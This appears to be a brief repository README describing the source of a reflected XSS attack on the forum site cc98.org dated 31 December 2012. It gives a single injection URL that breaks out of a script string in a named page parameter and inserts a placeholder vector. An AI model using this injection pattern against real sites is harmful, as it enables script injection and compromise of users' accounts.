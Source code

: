 This is the sources for the XSS attack in 2012.12.31 at cc98.org, taking advantage of a reflection xss in /dispbbs.asp?Boardid=507&ID=290147";}$VECTOR$;function%20ttt{//
